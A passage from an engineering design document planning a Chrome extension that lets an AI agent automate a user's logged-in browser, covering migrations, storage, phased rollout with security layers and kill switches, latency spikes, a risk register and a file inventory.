       prev_hash     TEXT,
       created_at    TEXT NOT NULL
     )`,
    `CREATE INDEX IF NOT EXISTS idx_agent_audit_created
       ON agent_audit (created_at DESC)`,
    `CREATE INDEX IF NOT EXISTS idx_agent_audit_command
       ON agent_audit (command_id)`,
  ],
},
```

**House-rule compliance:**

- Additive only — two `CREATE TABLE IF NOT EXISTS` and three `CREATE INDEX IF NOT EXISTS`. No
  `DROP`, no `RENAME`, no column rewrite, no touch to the FTS5 table or the `F32_BLOB(768)` column.
- All statements are **bare** (not `tolerant`) because `IF NOT EXISTS` is genuinely idempotent —
  a retry after partial application re-runs harmlessly and records the version. `tolerant` is for
  DDL that legitimately may fail on some builds (the libSQL vector ANN index) or on retry
  (`ADD COLUMN` → "duplicate column name"). Neither applies here. **If a later migration adds a
  column to these tables, that one must be `{sql, tolerant:true}`.**
- **Fleet-wide.** Appending this mutates every tenant DB on its next touch. Treat it as a
  fleet-wide DDL, not a single-DB change.
- Ships in the **same commit** as the code that reads it.
- Keeps the **old code working** — two new tables nothing else references; a mid-rollout previous
  build is unaffected.

### 14.2 Export version — no bump

`packages/types/src/export.ts` `SCHEMA_VERSION` is currently **4** (`:21`). It stays **4**.

Rationale, following the precedent set in the v11 comment for `mcp_tokens`: `agent_pairings` is
**credential metadata** and `agent_audit` is **operational telemetry**. Neither is user *content*.
The export bundle carries bookmarks and sessions; it does not carry `mcp_tokens` or `ai_usage`, and
it must not carry a table whose rows describe a revocable credential or a security log. **Exporting
an audit log into a portable bundle would be a privacy regression, not a feature.**

Therefore: no `SCHEMA_VERSION` bump, no `migrateExportBundle` step.

> **The trigger to revisit:** if a future phase adds a user-visible, user-authored column — e.g. a
> saved automation recipe with a user-chosen name — that **is** user data, and the rule fires:
> bump `SCHEMA_VERSION` **and** add the vN→vN+1 upgrader in `packages/types/src/export.ts`, with
> the core in `packages/engine/src/export-import.ts`. Flag it in that PR's description.

### 14.3 Ephemeral state stays in Redis

Arming, origin sets, command streams, results, push subscriptions and **screenshot blobs** live in
Redis with TTLs (§11.3). None of it reaches SQLite.

**Screenshots specifically never touch the tenant DB.** They are the highest-sensitivity artifact in
the system (a picture of a logged-in page), they are large, and they have no long-term value.
15-minute TTL, deleted on session end, never exported, never backed up.

### 14.4 Extension-local state

`chrome.storage.local` in `apps/extension-remote/`:

| Key | Contents |
| --- | --- |
| `local:pairing` | `{deviceId, pairedAt, tokenHint}` — never the token in a loggable form |
| `local:autoToken` | the `bkd_` `scp:"auto"` token |
| `local:lastAckedSeq` | **must be storage, never a global** (§10.4) |
| `local:recentCommandIds` | ring buffer for duplicate suppression |
| `local:originSet` | `{origin: "r" \| "rw"}` for the current arming |
| `local:consent` | `{version, acceptedAt}` for the §8.5 disclosure |
| `local:diag` | breadcrumbs — scopes `autoAuth`, `autoSocket`, `autoCmd`, `autoDebugger`. **Never token values; presence/length/status only** (the existing `apps/extension/lib/diag.ts` rule). |

---

## 15. Phased plan

> **Nothing in Phase 1 starts before `agent-platform.md` is merged and its permission layer is
> running on the VM.** See §18.

### Phase 0 — Spikes (§16) · ~2 days · **GATES EVERYTHING**

Three questions (§16). **DoD:** each answered with a reproducible script in
`apps/extension-remote/spikes/` and a one-paragraph verdict written back into this document. If
spike (c) shows `snapshot`+`click` above ~2s p50, **stop and redesign to a coarser vocabulary**
before writing production code.

### Phase 1 — Foundations · ~3 days

- Extract `packages/ext-core/` from `apps/extension/lib/` — device-token client, `authFetch` 401
  ladder, `detect.ts`, `diag.ts`. **Pure move, zero behavior change**; `apps/extension/` is
  refactored to import from it and its permission set is untouched.
- `packages/types/src/automation.ts` — the discriminated union for all 16 verbs; exported from
  `index.ts`.
- `scp:"auto"` in `apps/web/lib/server/device-token.ts` + `apps/live-server/src/device-token.ts`,
  with tests asserting cross-scope rejection in both directions.
- Migration **v15** (§14.1).
- Draft the **CWS store listing and the §8.5 consent copy** now, not at submission.

**DoD:** `pnpm check-types` + `pnpm build` green; `apps/extension/` byte-identical manifest; an
`ext` token 401s on a stub `/agent/*` route and an `auto` token 401s on `/api/bookmarks`.

### Phase 2 — New extension skeleton + local CDP · ~5 days

- `apps/extension-remote/` — WXT, Chrome MV3 only, own pinned CRX key/id (three targets, matching
  the existing convention in `apps/extension/wxt.config.ts:22-44`), own icon set, distinct name.
- `permissions: ["debugger", "tabs", "storage", "alarms", "tabGroups"]`.
  **`host_permissions`: `bookmark-ai.cloud` apex+www, `bookmark-ai-dev.vercel.app`,
  `live.bookmark-ai.cloud`, `http://localhost/*`** — and nothing else. `debugger` implies full URL
  access anyway; declaring more only makes the listing worse.
- `lib/actions/` — one module per verb + `index.ts` holding the closed switch (§8.3).
- `lib/debugger/` — attach/detach lifecycle, DevTools-eviction handling, denylist enforcement
  before attach.
- `lib/snapshot/` — AX tree → compact YAML, ref allocation, `snapshotId` staleness.
- A **local dev driver** (a dev-only popup panel) that runs verbs against the local Chrome with no
  server at all — this is how the vocabulary gets debugged without the WAN in the loop.

**DoD:** every one of the 16 verbs runs from the dev panel against 5 real sites (a docs site, a
JS-heavy SPA, GitHub, a page with a cross-origin iframe, and a logged-in site of Tara's choosing);
infobar behavior documented with a screencast; DevTools-eviction handled gracefully rather than
throwing; CI grep for `eval|new Function|import(` fails the build if reintroduced.

### Phase 3 — Transport · ~4 days

- `apps/live-server/src/routes/agent/*` (§11.2) + `agent-store.ts` + `agent-stream.ts` +
  `web-push.ts` + extended `keys.ts`.
- Extension: Web Push subscription, WSS client, `seq`/ack/replay, `chrome.storage`-persisted
  `lastAckedSeq`, 0.5min watchdog alarm, 20s app-level ping.
- Caddy: confirm the WSS upgrade path alongside the existing `flush_interval -1` SSE config.
- `.github/workflows/live-server-deploy.yml` already triggers on `apps/live-server/**` — verify it
  picks up the new files and that the VM has `@fastify/websocket`.

**DoD:** command dispatched from a `curl` on the VM reaches a dormant Chrome and returns a result;
**kill the service worker mid-command** and verify exactly-once observable effect after replay;
verify a command enqueued while Chrome is **closed** is delivered on next launch; `POST /live` and
`GET /live/stream` verified unchanged by the existing live-sessions test pass.

### Phase 4 — Agent tool surface · ~3 days

- 16 `tool()` definitions, one file each, in the VM agent service.
- Registration into `agent-platform.md`'s permission layer with the §12.3 defaults.
- `pending_approvals` wiring for the `ask` verbs, cross-device to the phone.
- §12.4 refusals implemented **twice** — server-side and extension-side.
- §12.5 untrusted-content wrapping.

**DoD:** from the Expo app, "open my last three saved Rust bookmarks and summarize the code samples"
completes end-to-end against real prod; an `ask` verb produces a phone approval and blocks
correctly; a refused verb is refused at both layers with the socket-side refusal verified by
sending a forbidden command directly to the extension.

### Phase 5 — Security layers · ~5 days · **SHIPS WITH v1**

- §13.1 origin sets: extension-side enforcement + redundant relay-side check + post-redirect origin
  validation + URL query/fragment redaction.
- §13.2 `lib/redact/` with a fixture corpus of injected pages; screenshot masking of
  invisible-but-present regions.
- §13.3 pairing flow: `/settings/automation` in `apps/web`, `POST /api/agent/pair`, 18-hour
  recency gate, 6-digit local code confirmation, 30-minute re-consent timer.
- §13.4 tab-group scoping, tab picker, badge states, hard origin denylist.
- §13.6 audit log written by the relay with `origin` and `prev_hash`; "Automation activity" views
  in web and mobile.
- §13.7 all four kill switches, with the account flag ≤2 taps from the mobile home.
- §8.5 first-run consent screen + privacy policy update + Data safety form.

**DoD:** a red-team pass against the fixture corpus with a written ASR number (however bad — write
it down); each kill switch independently verified to stop an in-flight session; audit log
hash-chain verified to detect a retroactive edit; the consent screen verified to block all
functionality until accepted.

### Phase 6 — Store submission · unbounded

Submit, with §8.4's listing and §8.6's prepared appeal. **Do not announce a date.** Expect one
rejection.

### 15.7 No half features — the enablement checklist

Per the repo rule, every one of these ships **with the code**, not after:

| Variable | root `.env` | `.env.local` | Vercel prod | Vercel preview | `turbo.json` `build.env` | `.env.example` | VM systemd env |
| --- | --- | --- | --- | --- | --- | --- | --- |
| `AGENT_VAPID_PUBLIC_KEY` | ✓ | ✓ | ✓ | ✓ | ✓ | ✓ | ✓ |
| `AGENT_VAPID_PRIVATE_KEY` | ✓ | — | ✓ | ✓ | ✓ | ✓ (placeholder) | ✓ |
| `AGENT_VAPID_SUBJECT` | ✓ | ✓ | ✓ | ✓ | ✓ | ✓ | ✓ |
| `AGENT_AUTOMATION_ENABLED` | ✓ | ✓ | ✓ | ✓ | ✓ | ✓ | ✓ |
| `AGENT_BLOB_TTL_SECONDS` | ✓ | ✓ | ✓ | ✓ | ✓ | ✓ | ✓ |
| `NEXT_PUBLIC_AGENT_RELAY_URL` | ✓ | ✓ | ✓ | ✓ | ✓ | ✓ | — |

`DEVICE_TOKEN_SECRET` is already present in `turbo.json` `build.env` and is reused for `scp:"auto"`
signing — no new secret needed there.

**Also, in the same commit:**

- `apps/extension-remote/.env.development`, `.env.dev-remote`, `.env.production` — one per build
  target, matching the existing three-target discipline (`apps/extension/CLAUDE.md` → Build targets).
  Never cross the wires: a green "(Dev)" install must not carry a prod relay URL.
- Three new CRX ids registered in the Clerk instance's `allowed_origins` (**PATCH replaces the whole
  list — always send the full set**) and in `apps/web/lib/authorized-parties.ts`.
- `apps/web/lib/extension-links.ts` gains the new store target (and note: `live-sessions.md` §10.1
  records that the existing four targets are **still `example.com/REPLACE-ME` placeholders** — that
  blocker is not fixed by this project and should be tracked separately).
- `docs/TESTING.md` gains an automation section.

---

## 16. Spikes — do these before committing to any of the above

### Spike (a) — Does `Input.dispatchMouseEvent` need an active/focused tab?

**Question:** attach to a tab that is (i) active in a non-focused window, (ii) inactive in a focused
window, (iii) in a minimised window. Does a dispatched click land? Does `insertText`? Does
`captureScreenshot`?

**Why it gates everything:** if input requires foreground, every automated action steals the user's
screen, and the product is "watch the robot" rather than "it happens while you work." That changes
the mobile UX, the arming model, and arguably whether to build it at all.

**Method:** minimal unpacked extension, a local page with a click counter, three window states,
50 clicks each. Record landed/dropped and any `Input.*` error.

**Deliverable:** a table of the nine (state × verb) cells, written back into §5.4.

### Spike (b) — Does a backgrounded Chrome window kill a pinging service worker?

**Question:** with a WebSocket open and app-level messages every 20s, does the worker survive
(i) the window fully occluded behind another app, (ii) the machine on battery with Low Power Mode,
(iii) macOS App Nap engaged, (iv) 30 minutes elapsed?

**Why:** §10.3 assumes the ping keeps the worker alive. If App Nap or occlusion throttles the timer
below the 30s threshold, sessions die silently mid-task and the fix is a different (worse) design.

**Method:** 60-minute run, log worker start/stop events to `chrome.storage`, read afterwards.

### Spike (c) — End-to-end latency, phone → push → wake → WSS → CDP → back

**Question:** what is p50/p95 for `snapshot` and for `click`, from a real phone on cellular to a
real Mac, cold (dormant worker) and warm (socket open)?

**Why:** §9.1 rejected Candidate A on latency. If Candidate B lands above **~2s p50** for a warm
`click`, the vocabulary is too fine-grained and must go coarser (e.g. a single
`clickByText(tabRef, text)` that does its own resolve, instead of `snapshot` + `click`).

**Method:** instrument at six points (phone send, agent receive, push send, SW wake, CDP start,
result received). 100 iterations warm, 20 cold.

**Decision rule, written in advance:** warm `click` p50 > 2s ⇒ redesign the vocabulary before
Phase 2. Cold wake p95 > 4s ⇒ the mobile UI must show a "waking your Mac" state rather than a
spinner.

---

## 17. Open questions and risks

| # | Question / risk | Severity | Notes |
| --- | --- | --- | --- |
| 1 | **CWS rejection.** Interpreter clause (§8.1) or the 1-Aug-2026 data rule (§8.5). | **High** | Mitigated by construction (§8.3) and by writing the listing for the reviewer (§8.4). Budget one rejection + appeal. **The data rule is the likelier trigger.** |
| 2 | **Prompt injection is unsolved and will not be solved by this design.** | **High** | §13.1/§13.2 reduce blast radius. There is no version of this where the answer is "we're safe." Decide whether that is acceptable *before* Phase 1. |
| 3 | **Should v1 ship gated to a hard-coded safe verb + domain set?** e.g. read-only verbs plus `navigate`, on a fixed list of ~20 documentation/news domains. | **Open — recommend YES** | Enormous risk reduction for modest capability loss, and it makes the CWS listing much easier to defend. Ship writes in v1.1 once the audit log has real data. **Owner decision needed.** |
| 4 | Spike (a) outcome — invisible vs foreground automation. | **High** | Changes the product. §16. |
| 5 | Spike (b) outcome — App Nap / occlusion killing the worker. | **Medium** | Fallback would be a shorter ping plus more aggressive push re-wake, which costs battery. |
| 6 | **Reachability** — Chrome-closed unreachability (§10.6) may be a bigger perceived limitation than expected once it's in front of a user on a train. | **Medium** | Be honest in the UI. Do not paper over it with an optimistic queue that silently never runs. |
| 7 | **Two extensions is a worse install story.** Two store listings, two install steps, two update cycles, user confusion about which does what. | **Medium** | Unavoidable (§7). Mitigate with a clear in-app explanation and a combined install flow on `/settings/automation`. |
| 8 | **Owning auto-wait.** We are re-implementing the hardest part of Playwright, badly, at first. | **Medium** | Accept. Budget bug-fixing time in Phase 2 and after launch. |
| 9 | **The relay becomes a control plane.** A compromise of the VM goes from "leaks tab titles" to "drives every paired browser." | **High** | The extension's own enforcement (denylist, origin set, refusals — §12.4, §13.4) exists precisely so the relay is not the only thing standing in the way. Keep it that way; never move an enforcement point to the server "for convenience." |
| 10 | **Redis Streams add unbounded-growth risk** if a device never reconnects. | **Low** | `XADD ... MAXLEN ~ 500` and a TTL on the stream key. |
| 11 | **Multi-tenant fleet DDL** — v15 mutates every tenant DB on next touch. | **Low** | Additive, `IF NOT EXISTS`, nothing references it until the code lands. But it is still a fleet-wide change (§14.1). |
| 12 | Cost: the VM currently runs Fastify + Redis comfortably. Screenshot blobs + streams add memory pressure. | **Low** | 15-min blob TTL, `MAXLEN` on streams. Measure before it matters. |
| 13 | **Should the audit log be exportable?** §14.2 says no. A user might reasonably want it. | **Open** | If yes, it becomes user data and the `SCHEMA_VERSION` rule fires. Decide deliberately, not accidentally. |

---

## 18. Implement order

```
   ┌──────────────────────────────────────────────────────────────┐
   │ PHASE 1 OF THE AI INITIATIVE                                 │
   │ docs/features/agent-platform.md                              │
   │  · raw AI SDK v7 agent                                       │
   │  · standalone Node agent service on the SAME Oracle VM       │
   │  · per-tool allow / ask / deny permission layer   ◀───┐      │
   │  · pending_approvals cross-device approval        ◀───┤      │
   └──────────────────────────────────────────────────────┼──────┘
                              │                            │
                              ▼                            │ hard
   ┌──────────────────────────────────────────────────────┼──────┐
   │ PHASE 2 OF THE AI INITIATIVE   ← THIS DOCUMENT       │      │
   │ docs/features/extension-automation.md                 ─┘     │
   │  · new apps/extension-remote/ (chrome.debugger)              │
   │  · push-to-wake + WebSocket on apps/live-server/             │
   │  · 16 browser verbs → tool() → THAT permission layer         │
   │  · 7 security layers, egress + redaction in the v1 train     │
   └──────────────────────────────────────────────────────────────┘
```

**This document cannot start before `agent-platform.md` is merged and running.** It has no permission
layer of its own, no approval mechanism of its own, and no agent service of its own — all three are
inherited. Building them here would duplicate them and guarantee they drift.

**Recommended sequence:**

1. Merge and run `agent-platform.md` with its non-browser tools (search, sessions, notes).
2. Live with the permission layer for **two weeks**. Find out empirically whether `ask` prompts are
   answered or blindly approved — on our own users, not Anthropic's. That number decides how much
   §13.5 is worth.
3. Run the three spikes (§16).
4. Decide risk item #3 in §17 — the hard-coded safe verb + domain set for v1.
5. Then Phase 1 here.

> **The `live-sessions.md` §8 Stage 0 lesson applies.** That document proposed shipping the cheapest
> possible version first and asking whether the expensive version was ever missed — and explicitly
> called "it turns out we didn't need it" a **good outcome, not a failure.** The equivalent here is
> the read-only verb set from §17 item 3. If the agent can open, read and summarize pages in your
> logged-in Chrome and that turns out to be the whole value, then `click` and `type` — and most of
> the risk in this document — were never needed.

---

## Appendix A — File inventory

**New:**

```
apps/extension-remote/                    WXT, Chrome MV3 only
  wxt.config.ts                           permissions: debugger, tabs, storage, alarms, tabGroups
  .env.development · .env.dev-remote · .env.production
  entrypoints/background.ts               SW: push handler, WSS client, command loop
  entrypoints/popup/                      pairing, arming, tab picker, status, disarm
  lib/actions/                            one module per verb + index.ts (the closed switch)
  lib/debugger/                           attach/detach, eviction handling, denylist
  lib/snapshot/                           AX tree → compact YAML, refs, staleness
  lib/redact/                             §13.2 UCM-style structural redaction
  lib/transport/                          socket.ts, seq.ts, push.ts, watchdog.ts
  spikes/                                 §16 harnesses

packages/ext-core/                        extracted from apps/extension/lib (pure move)
packages/types/src/automation.ts          Zod discriminated union, 16 verbs

apps/live-server/src/routes/agent/        socket · enqueue · result · blob · subscribe · arm · status
apps/live-server/src/agent-store.ts · agent-stream.ts · web-push.ts

apps/web/app/settings/automation/         pairing UI, pairings list, audit view, kill switch
apps/web/app/api/agent/pair/route.ts      mints scp:"auto"; 18h recency gate
apps/mobile/src/screens/Automation*       status, kill switch, approvals
```

**Modified:**

```
packages/db/src/migrations.ts             APPEND v15 (never edit v1)
packages/types/src/index.ts               export automation.ts
apps/web/lib/server/device-token.ts       + DEVICE_TOKEN_SCOPE_AUTO
apps/live-server/src/device-token.ts      mirror
apps/live-server/src/keys.ts              + agent:{u}:* builders
apps/live-server/src/server.ts            register agent routes, @fastify/websocket
apps/web/lib/authorized-parties.ts        + 3 new CRX ids
apps/web/lib/extension-links.ts           + new store target
turbo.json                                build.env += 6 vars
.env.example · docs/TESTING.md
```

**Explicitly NOT modified:**

```
apps/extension/wxt.config.ts              permission set untouched — hard rule (§3.1 G8)
apps/live-server/src/routes/push.ts       /live untouched (§11.1)
apps/live-server/src/routes/stream.ts     /live/stream untouched
apps/live-server/src/keys.ts              live:{u}:* key space not extended
apps/web/hooks/use-live.ts · apps/mobile/src/hooks/useLiveDevices.ts
```

## Appendix B — Corrections issued by this document

| Document | Location | Correction |
| --- | --- | --- |
| `docs/features/live-server-v3.md` | `:145` — *"Extension: push-only, no SSE — an MV3 service worker can't hold a socket."* | **Outdated.** Chrome 116 made WebSocket activity reset the 30s idle timer (app-level messages < 30s apart, classic `WebSocket` only, not in an offscreen doc). Chrome 118 made `chrome.debugger` attach pin the worker outright. The correct statement is: *an MV3 worker can hold a socket, but doing so for a low-value background push loop is the wrong trade — which is why the live mirror still shouldn't.* See §10.2. |
| `docs/features/live-server-v3.md` | `:409`, `:659` | Directionally right for the **live-tabs** workload and should stand for it. Not a general rule; do not cite it as one against §10.3. |
| `docs/features/live-sessions.md` | §6.16 (`:1372`) — remote actuation as an alarm-drained command queue, rejected for ~3-min latency | **Superseded.** The verdict was correct for that transport (`chrome.alarms` clamps to ~1 min in packed builds). Silent Web Push (Chrome 121+) replaces the clamp with an FCM round-trip: sub-second wake, store-and-forward while Chrome is closed, zero idle cost. See §10.3. |
| `docs/features/live-sessions.md` | §9.2 item 1 (`:1528`) — the two-key model, *"Decide before Stage 1 ships"*, still open | **Decided here, for automation.** Two-key adopted and tightened: account flag + per-install pairing, both fail-safe-absent, plus an 18-hour sign-in recency gate, a 6-digit code confirmed on the machine, 30-minute re-consent, and 30-day decay of unused pairings. Phone can disarm and un-pair; phone can **never** pair. See §13.3. |
